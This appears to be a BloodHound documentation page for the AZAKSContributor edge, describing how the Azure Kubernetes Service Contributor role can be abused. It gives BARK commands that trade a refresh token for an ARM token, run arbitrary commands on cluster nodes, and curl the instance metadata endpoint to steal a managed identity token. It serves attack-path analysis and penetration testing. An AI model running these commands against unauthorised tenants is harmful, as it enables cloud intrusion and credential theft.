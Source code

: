 ---
title: AZAKSContributor
description: "The Azure Kubernetes Service Contributor role grants full control of the target Azure Kubernetes Service Managed Cluster."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

 This includes the ability to remotely fetch administrator credentials for the cluster as well as the ability to execute arbitrary commands on compute nodes associated with the AKS Managed Cluster.

## Abuse Info

You can use BARK’s Invoke-AzureRMAKSRunCommand function to execute commands on compute nodes associated with the target AKS Managed Cluster.

This function requires you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the cluster. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s Invoke-AzureRMAKSRunCommand function to execute a command against the target AKS Managed Cluster. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command "whoami"
```
If the AKS Cluster or its associated Virtual Machine Scale Sets have managed identity assignments, you can use BARK’s Invoke-AzureRMAKSRunCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command \\'curl -i -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com/&api-version=2019-08-01"\\'
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/](https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/)
